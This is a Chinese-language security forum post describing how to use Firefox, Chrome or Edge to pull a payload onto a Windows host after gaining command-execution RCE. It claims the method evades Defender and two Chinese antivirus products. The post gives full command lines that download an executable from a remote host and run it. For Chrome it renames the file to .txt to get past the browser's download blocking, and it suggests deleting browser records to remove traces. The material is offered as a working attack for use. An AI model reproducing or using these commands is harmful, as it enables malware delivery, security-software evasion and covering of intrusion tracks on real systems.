 **前言：**  
拿到一个RCE漏洞，只能命令执行，利用场景及其有限，想要上传我们的CS来上线，但是在Windows中，像curl/certutil/powershell/wget命令都不免杀，怎么办？只要学会利用游览器进行后渗透，就能一招鲜吃遍天，目前经测试，包括某60、某绒、defender，都不会对该行为进行拦截，虽然类似的技术分享，之前也有师傅发过，但是这种利用方式其实并非主流，还是有很多兄弟不知道的，导致杀软没有专门对其进行行为查杀，现在某些游览器，例如Chrome，是会对游览器下载的行为进行拦截的，本文也会提供一种“船新”的思路进行绕过。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-8cd2c545d83fef766c0f8b13c2aab352013d0972.png)

**测试环境：**  
目前我用的是Windows Server自带的Defender+某60+某绒，且已经全部都已经升级到了最新版本，包括我们今天的主角游览器，测试用的Edge、火狐、Chrome游览器都已经升级到了最新版本，以验证我们方法的现行可行性，直到本文发出去的这段时间都是有效的。

1. 我们用CMD命令提示符来模拟RCE的真实环境
2. 用python自带的简易http服务来模拟远程下载URL
3. 用我们自己编译的qax.exe来模拟上传的文件  
    ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-b036b77343180f2cab9a05484ce5fae41a169cc6.png)

**利用前提条件：**

1. 有RCE漏洞
2. 目标机器是Windows主机
3. 对方有Edge或是火狐、Chrome等第三方游览器

**实验结果如下：**

- 火狐游览器  
    下载EXE，全程无拦截。  
    `"C:\Program Files\Mozilla Firefox\firefox.exe" http://192.168.241.128/qax.exe`  
    `taskkill /im firefox.exe /f && C:\Users\test\Downloads\qax.exe`  
    ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-703448bd2b8f1957ace553aa06695efe9c59a614.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-1810e899093cfb0ae67c4013ba63185c72d2d856.png)

- Chrome  
    下载EXE/ZIP等常见格式均被拦截，但是有个办法可以进行绕过，就是先将EXE命名为TXT格式，下载后再通过命令把后缀名改回来，谷歌游览器下载文件，并不会对TXT文件进行拦截。  
    `"C:\Program Files\Google\Chrome\Application\chrome.exe" http://192.168.241.128/qax.txt`  
    `taskkill /im chrome.exe /f && copy C:\Users\test\Downloads\qax.txt C:\Users\test\Downloads\qax.exe && C:\Users\test\Downloads\qax.exe`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-02581093058f13a52bf40a5c2d637a25c66937fe.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-9752c66c8beae89d9c0d8a651718046e5981ba01.png)

- Edge  
    该游览器的利用方式和chrome同理，这里就不放图了，怕啰嗦，但是如果对方只有IE游览器就不用想了，因为IE游览器默认的安全配置是不允许下载的。

**深入利用探索：**  
这时有兄弟就问了，你这游览器下载会有痕迹呀，其实这个是可以删除的，不过要管理员权限，我记得只要篡改或者删除游览器AppData下的一些db文件就可以实现，游览历史记录和文件下载的内容都可以删除，其实市面上已经有很多相关的文章了，这里就不延展了，感兴趣的兄弟可以自行探索。